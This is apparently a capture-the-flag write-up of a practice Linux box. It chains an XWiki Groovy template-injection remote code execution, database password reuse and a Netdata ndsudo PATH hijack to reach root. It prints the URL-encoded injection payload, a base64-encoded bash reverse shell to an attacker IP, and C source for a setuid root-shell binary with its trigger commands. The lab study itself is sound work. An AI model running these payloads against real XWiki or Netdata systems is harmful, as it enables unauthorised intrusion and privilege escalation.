Editor

Editor was an easy-difficulty Linux box featuring an unauthenticated remote code execution vulnerability in XWiki and a privilege escalation through PATH hijacking in Netdata's plugin system. Initial access was gained by exploiting CVE-2025-24893, a Server-Side Template Injection (SSTI) vulnerability in XWiki 15.10.8's SolrSearchMacro, which improperly handled Groovy expressions in search queries. I crafted a malicious URL-encoded payload that changed the media type to RSS (the only format that interprets Groovy macros as executable code) and injected a reverse shell command. The payload broke out of existing macros with }}}, used {{async async=false}} for synchronous execution, and executed a base64-encoded bash reverse shell through Groovy's .execute().text methods, using brace expansion ({echo,b64string}|{base64,-d}|{bash,-i}) to bypass space restrictions. This granted a shell as the xwiki user inside a Docker container.
I enumerated the XWiki Java application's configuration files and discovered database credentials (theEd1t0rTeam99) in /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml. Testing for credential reuse against the oliver user account via SSH succeeded, providing access to the host system and the user flag.
I identified an outdated Netdata monitoring service (v1.45.2) running on port 19999 and exploited CVE-2024-32019, which allows privilege escalation through PATH hijacking in the ndsudo binary. I compiled a malicious C binary that explicitly set GID, EUID, and UID to 0 using setgid(), seteuid(), and setuid() before calling execl() to spawn a privileged bash shell. After naming this binary nvme and placing it in /tmp, I modified the PATH environment variable with export PATH=/tmp/:$PATH and executed /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list, which triggered the malicious binary and granted root access.
User Flag

Initial nmap scan reveals 3 open ports, SSH on 22, and websites on 80 and 8080.
Website enumeration

I can download a .deb package and a Windows executable of simplistcode. If this is used somewhere on the website, I'll analyze it to look for vulnerabilities. For now, I'll keep looking.
The Docs button leads to a wiki subdomain.

At the bottom of the page, a version number XWiki Debian 15.10.8 is revealed. Searching for CVEs related to this version led me to CVE-2025-24893, an unauthenticated RCE vulnerability caused by improper handling of Groovy expressions by the SolrSearchMacro inside the search queries.
https://www.offsec.com/blog/cve-2025-24893/
And the OffSec article links to a GitHub advisory and PoC for this vulnerability.
https://github.com/advisories/GHSA-rr6p-3pfg-562j
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py
Understanding the SSTI vulnerability
In the PoC, I can see the payload clearly.
SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
This being injected into the URL. After URL-Decoding it, this is the result:
SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}
The payload breaks down as follows:
}}} - Closes any existing XWiki macros
{{async async=false}} - Forces synchronous execution (ensures command completes before page renders)
{{groovy}}...{{/groovy}} - XWiki macro that executes Groovy code
println("cat /etc/passwd".execute().text) - The actual exploit:
.execute() - Spawns a new process (similar to Runtime.exec() in Java)
.text - Reads stdout from that process as a string
println() - Outputs it to the RSS feed
To turn this into a reverse shell, I'll have to change the cat command into a proper reverse shell payload. This step took me quite a while, but eventually I got a connection back.
%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho,YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMzQvOTAwMSAgMD4mMScK%7D%7C%7Bbase64,-d%7D%7C%7Bbash,-i%7D%22.execute()%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D.

I wrapped each component of the command after the echo into a curly brace. This avoids using spaces, as bash will naturally expand the braces into proper commands. For example, {echo,b64command} will become echo b64command
The full reverse shell command is: bash -c echo <B64STRING>|base64 -d|bash -i

Exploring the container

There is a Docker container running on the box, and the only user with a home directory is Oliver. This is my next target.
Xwiki is a Java application, and it has the user login functionality. As such, it must have a database. Many Java apps use Hibernate ORM to connect with MySQL, and so is the case for Xwiki.
https://www.xwiki.org/xwiki/bin/view/Documentation/AdminGuide/Performances/Database%20Administration/
find / -type f -name "*.cfg*" 2>/dev/null
Looking for any .cfg files on the box, I see 3 interesting entries related to Xwiki.

XML files often contain credentials, so I'll start with checking that one.

? | theEd1t0rTeam99
I'll test this password for credentials reuse against Oliver with SSH.

Root Flag

There are 3 unusually high active ports, 33060, 37881, and 19999. The first two return errors, but the last one leads to a working application.

Netdata is an open-source monitoring tool that grants insight into the health of and use of components.
PATH hijack attack
I can see a warning about a missing update on the upper portion of the screen.

The editor box runs an older version of Netdata v1.45.2. A quick search online led me to CVE-2024-32019 and a GitHub advisory.
https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93

The netdata plugins are located under /opt/netdata/usr/libexec/netdata/plugins.d/. Running ndsudo with the help flag reveals which executable each command uses.
GitHub advisory suggests replacing the nvme bin, and that's what I'll do. However, directly calling bash commands with -p (preserves the SUID bit) did not work as intended here. It might have been due to certain security options being used, or the process dropping the SUID bit, regardless, but there is a different way to force the UID to my desired value.
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
if (setgid(0) != 0) {
perror("setgid");
return 1;
}
if (seteuid(0) != 0) {
perror("seteuid");
return 1;
}
if (setuid(0) != 0) {
perror("setuid");
return 1;
}
printf("UID=%d EUID=%d GID=%d\n", getuid(), geteuid(), getgid());
execl("/bin/bash", "bash", "-p", "-i", NULL);
perror("execl");
return 1;
}
This binary will first set the GID(Group ID), EUID(Effective User ID), and the UID(User ID) to 0(root), then display back the values, and finally, it'll replace the nvme-list process with the new /bin/bash call with execl. Since it will be executed as root, the newly spawned bash shell should have root permissions.
The malicious nvme binary will be placed under /tmp. I'll add that directory to the PATH like this.
export PATH=/tmp/:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

Rooted!